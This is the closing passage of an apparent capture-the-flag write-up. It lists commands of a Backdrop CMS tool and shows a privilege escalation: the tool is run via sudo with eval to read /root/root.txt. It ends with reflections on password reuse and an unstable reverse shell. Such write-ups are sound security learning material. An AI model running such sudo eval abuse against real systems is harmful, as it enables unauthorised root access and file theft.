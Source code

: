 ```

  user-remove-role
   urrole, urrol
   Remove a role from a user.

  user-unblock
   uublk
   Unblock a user.

  users
   uls, user-list
   List all user accounts.

 ADVANCED
  db-query
   dbq
   Execute a query using db_query().

  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.

  php-script
   scr
   Execute an arbitrary PHP file after bootstrapping Backdrop.

  sql
   sqlc, sql-cli, db-cli
   Open an SQL command-line interface using Backdrop's database credentials
```

The `eval`command looked interesting to me. It would allow me to run some PHP code. Great, so I can just grab the contents of `root.txt`.

`sudo /usr/local/bin/bee eval "echo file_get_contents('/root/root.txt');"`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593400/image_ckggwu.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752594324/Screenshot_2025-07-15_164511_kgvayx.png)

## Thoughts

A great box that I enjoyed. I liked that the discovered credentials could be re-used because it mirrors the real-world in that people **ALWAYS** use the same password for multiple accounts and services. It's nice to see a more realistic attack vector for once. Additionally, I had a lot of issues with the reverse shell because the exploit setup was a bit awkward. And then on top the CMS site was unstable (at least when I attempted it) so the shell would break quite easily. But with some perseverance we got there in the end.